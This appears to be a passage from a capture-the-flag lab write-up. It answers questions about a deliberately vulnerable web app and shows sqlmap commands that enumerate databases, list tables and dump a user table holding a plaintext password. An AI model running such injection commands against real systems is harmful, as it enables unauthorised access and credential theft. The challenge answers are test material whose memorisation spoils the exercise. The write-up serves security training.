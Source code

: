 > 4.1 - <em>How many databases are available in this web application?</em>
>> <strong><code>6</code></strong>
<p></p><br>

![image](https://github.com/user-attachments/assets/2ad1c814-d85f-41b5-b03a-bece55e5d15e)

<br>

![image](https://github.com/user-attachments/assets/59be5d20-00bd-4a92-b949-7d05d7aee5c7)

<br>

![image](https://github.com/user-attachments/assets/65d70d3d-47d4-483f-b07d-87216725367c)

<br>

![image](https://github.com/user-attachments/assets/ae594fee-82b2-44a8-811b-927fc2aa90c6)

<br>

<pre><code>$ root@ip-[REDACTED]:~#  sqlmap -u "http://[REDACTED]/ai/includes/user_login?email=rosana@local.com&password=test" --level=5 --dbs</code></pre>

<br>

![image](https://github.com/user-attachments/assets/76da0dab-e357-4460-b8ba-6a2906c2152a)

<br>

![image](https://github.com/user-attachments/assets/c7aa2e6b-6bea-4dcf-975d-3885af1723b9)

<br>

> 4.2 - <em>What is the name of the table available in the "ai" database?</em>
>> <strong><code>user</code></strong>
<p></p><br>

<pre><code>$ root@ip-[REDACTED]:~# sqlmap -u "http://[REDACTED]/ai/includes/user_login?email=rosana@local.com&password=test" --level=5 -D ai --tables
</code></pre>

<br>

![image](https://github.com/user-attachments/assets/21ac99cc-6c38-461b-844c-348f829e5892)

<br>

> 4.3 - <em>What is the password of the email test@chatai.com??</em>
>> <strong><code>12345678</code></strong>
<p></p><br>

<pre><code>$ root@ip-[REDACTED]:~# sqlmap -u "http://[REDACTED]/ai/includes/user_login?email=rosana@local.com&password=test" --level=5 -D ai --tables --dump</code></pre>

![image](https://github.com/user-attachments/assets/881ea143-d1a9-4118-b73f-1636da15253b)


